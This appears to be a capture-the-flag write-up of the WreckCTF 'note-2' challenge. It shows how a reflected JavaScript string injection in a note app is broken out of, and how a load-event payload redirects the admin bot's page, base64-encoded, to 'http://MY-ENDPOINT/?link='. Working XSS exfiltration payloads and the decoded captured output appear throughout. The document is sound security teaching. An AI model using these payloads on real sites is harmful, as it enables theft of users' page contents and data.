





# note-2



We have two endpoints and  the source code : 

https://notes-2.challs.wreckctf.com/

https://admin-bot.wreckctf.com/notes-2

The second endpoint is used to send a url to the bot.

If you are a bit familliar with CTF , is looks a lot like an XSS challenge ! 

# looking for an xss



It's a note taking app , you write something and a note get created. 




You can either reveled it or see the previous note. 



The page contains some js and our input get reflected, let's read the code.

```js
    
                const button = document.querySelector('button');
                const content = document.querySelector('.content');
                button.addEventListener('click', () => {
                    content.textContent = "jey";
                    button.remove();
                });

                const previous = localStorage.previous;
                const current = window.location.toString();

                const a = document.querySelector('a');
                if (previous) {
                    a.href = previous;
                } else {
                    a.remove()
                }
                localStorage.previous = current;
```

Our input get reflected inside the textContent property of **content** variable.<br>
Here we can simply try to escape the quote and try a basic document.location='http://you-endpoint/'
in order to do a redirection <br>
example of payload: 
```js
"; document.location='http://MY-ENDPOINT/' //
```

But our payload will not get trigger by the bot because we need an interaction from the bot.

```js
                const button = document.querySelector('button');
                const content = document.querySelector('.content');
                button.addEventListener('click', () => {
                    content.textContent = ""; document.location='http://MY-ENDPOINT/' //"
                    button.remove();
                });

                const previous = localStorage.previous;
                const current = window.location.toString();

                const a = document.querySelector('a');
                if (previous) {
                    a.href = previous;
                } else {
                    a.remove()
                }
                localStorage.previous = current;

```


In order to work we need either the bot  **click** for us or escape this callback function and use our own callback.


# understand what to exfiltrate and creating our own callback

At the start i used to think that we need to exfiltrate a link from the bot (which contains the flag).
Actually the js script try to store in localStorage.previous the  url of the current window.<br>

After a few minute i try to exfiltrate the complete page of the admin instead.<br>

My payload: <br>
```js
";}); 
window.addEventListener('load', () => {
document.location="http://MY-ENDPOINT/?link=".concat(btoa(unescape(encodeURIComponent(document.body.innerHTML))));//";

```
which end-up like that : 

```js
                const button = document.querySelector('button');
                const content = document.querySelector('.content');
                button.addEventListener('click', () => {
                    content.textContent = "";
                }); 
                
                window.addEventListener('load', () => {
                        document.location="http://MY-ENDPOINT/?link=".concat(btoa(unescape(encodeURIComponent(document.body.innerHTML))));//";
                        button.remove();
                });

                const previous = localStorage.previous;
                const current = window.location.toString();

                const a = document.querySelector('a');
                if (previous) {
                    a.href = previous;
                } else {
                    a.remove()
                }
                localStorage.previous = current;

```


I first escape the first callback then add my callback function which will be executed once the page has loaded completely(which explain why we can't exfiltrate the 
content of the previous link from the bot), basically i am redirecting to my endpoint the content of the page in base64.<br>


Once the note is created we send the url to the admin and we receive some base64: <br>

```base64
PGRpdiBjbGFzcz0iY29udGFpbmVyIj4KICAgICAgICAgICAgICAgIDxoMT5Ob3RlPC9oMT4KICAgICAgICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbnRlbnQiPgogICAgICAgICAgICAgICAgICAgIE5vdGUgaGlkZGVuIGZvciBzYWZldHkuLi4KICAgICAgICAgICAgICAgIDwvZGl2PgogICAgICAgICAgICAgICAgPGJyPgogICAgICAgICAgICAgICAgPGJ1dHRvbj5SZXZlYWwhPC9idXR0b24+CiAgICAgICAgICAgICAgICA8YSBocmVmPSJodHRwczovL25vdGVzLTIuY2hhbGxzLndyZWNrY3RmLmNvbS92aWV3L2FlMDZmNGYxZjRlOGQ4NzAwOTdiMDA0OTFhNWNjOTg1MmU2YWVhYWFmZWUwMzNhNDE0M2MxNzJmYWU0NTM4M2EiPlByZXZpb3VzIG5vdGUuLi48L2E+CiAgICAgICAgICAgIDwvZGl2PgogICAgICAgICAgICA8c2NyaXB0PgogICAgICAgICAgICAgICAgY29uc3QgYnV0dG9uID0gZG9jdW1lbnQucXVlcnlTZWxlY3RvcignYnV0dG9uJyk7CiAgICAgICAgICAgICAgICBjb25zdCBjb250ZW50ID0gZG9jdW1lbnQucXVlcnlTZWxlY3RvcignLmNvbnRlbnQnKTsKICAgICAgICAgICAgICAgIGJ1dHRvbi5hZGRFdmVudExpc3RlbmVyKCdjbGljaycsICgpID0+IHsKICAgICAgICAgICAgICAgICAgICBjb250ZW50LnRleHRDb250ZW50ID0gIiI7fSk7ICB3aW5kb3cuYWRkRXZlbnRMaXN0ZW5lcignbG9hZCcsICgpID0
...

```

Once we base64 decoded we have: <br>

```html
<div class="container">
                <h1>Note</h1>
                <div class="content">
                    Note hidden for safety...
                </div>
                <br>
                <button>Reveal!</button>
                <a href="https://notes-2.challs.wreckctf.com/view/ae06f4f1f4e8d870097b00491a5cc9852e6aeaaafee033a4143c172fae45383a">Previous note...</a>
            </div>
            <script>
                const button = document.querySelector('button');
                const content = document.querySelector('.content');
                button.addEventListener('click', () => {
                    content.textContent = "";});  window.addEventListener('load', () => { document.location="http://MY-ENDPOINT/?link=".concat(btoa(unescape(encodeURIComponent(document.body.innerHTML))));//";";
                    button.remove();
                });

                const previous = localStorage.previous;
                const current = window.location.toString();

                const a = document.querySelector('a');
                if (previous) {
                    a.href = previous;
                } else {
                    a.remove()
                }
                localStorage.previous = current;
            </script>
```
We have the admin note , let's grab the flag at :<br>
 https://notes-2.challs.wreckctf.com/view/ae06f4f1f4e8d870097b00491a5cc9852e6aeaaafee033a4143c172fae45383a


